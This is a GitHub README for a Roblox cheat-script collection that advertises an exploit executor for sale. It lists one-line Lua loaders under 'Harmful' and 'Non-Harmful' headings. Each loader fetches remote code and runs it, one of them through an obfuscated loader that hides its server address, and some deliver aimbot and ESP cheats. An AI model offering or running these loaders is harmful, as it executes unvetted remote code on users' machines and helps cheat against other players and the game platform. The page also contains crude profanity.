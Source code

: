 > [!IMPORTANT]
> MSG &nbsp; <br> [![Discord Presence](https://lanyard.cnrad.dev/api/996636510088601650?theme=dark&bg=00000&animated=false&hideDiscrim=true&borderRadius=30px&idleMessage=I'm%20currently%20beating%20my%20dick~&showDisplayName=true)](https://discord.com/users/996636510088601650) for submissions

<h1 align="center"><img src="https://i.imgur.com/O5jfEFH.png" width="28"/> Scripts Collective</h1>

<h3 align="center">https://discord.gg/Q5JKyzuNRC</h3>

<h6 align="center">https://discord.gg/fastflags</h6>

##### [3/1/2024]
* **5 Currently Listed**

## How to Use:
### BUY KRAMPUS FROM [BloxProducts](https://bloxproducts.com/#f0)
* Instant Delivery
* Cheapest
* Purchase with Robux
* Popular Payment Methods

 # List Navigation
* **[Harmful](https://github.com/FastFlags/FastFlags-Collective/tree/Scripts-Collective?tab=readme-ov-file#harmful)**
* **[Non-Harmful](https://github.com/FastFlags/FastFlags-Collective/tree/Scripts-Collective?tab=readme-ov-file#non-harmful)**

<img src="assets/images/bitdancer.png" width="888"/>

### 

<h3 align="center">══════⊹⊱≼≽⊰⊹══════</h3>


<h4 align="center">Harmful</h4>

### Universal: Infinite Yield FE
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source"))()
```
### Phantom Forces: Silent Aim, ESP
https://raw.githubusercontent.com/FastFlags/FastFlags-Collective/Scripts-Collective/scripts/PF.lua
### Universal: Eclipse Hub
#### https://eclipsehub.xyz/
```lua
getgenv().mainKey = "nil";

local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,"https\58//api.eclipsehub.xyz/auth";c(a and b,"Executor not Supported")a(b({Url=e.."\?\107e\121\61"..d(mainKey),Headers={["User-Agent"]="Eclipse"}}).Body)()
```
### Criminality: Moonlight
#### https://moonhub.lol/
```lua
loadstring(game:HttpGet("https://hideout.one/api/cdn/loader"))()
```

<h4 align="center">Non-Harmful</h4>

### Universal: AntiChatLogger
#### https://github.com/AnthonyIsntHere/
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/AnthonyIsntHere/anthonysrepository/main/scripts/AntiChatLogger.lua", true))()
```
### Universal: Freecam
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/FastFlags/FastFlags-Collective/Scripts-Collective/scripts/freecam.lua"))()
```
<h4 align="center">‧⁺̣˚̣̣*̣̩⋆̩·̩̩୨˚̣̣̣̣͙୧·̩̩⋆̩*̣̩˚̣̣⁺̣‧ You've reached the bottom of the list! ‧⁺̣˚̣̣*̣̩⋆̩·̩̩୨˚̣̣̣̣͙୧·̩̩⋆̩*̣̩˚̣̣⁺̣‧୨</h4>

# List Information

* Maintained by [RFFC](https://discord.gg/fastflags)

<h3 align="center">FastFlags 2024®<sup>eal</sup></h3>
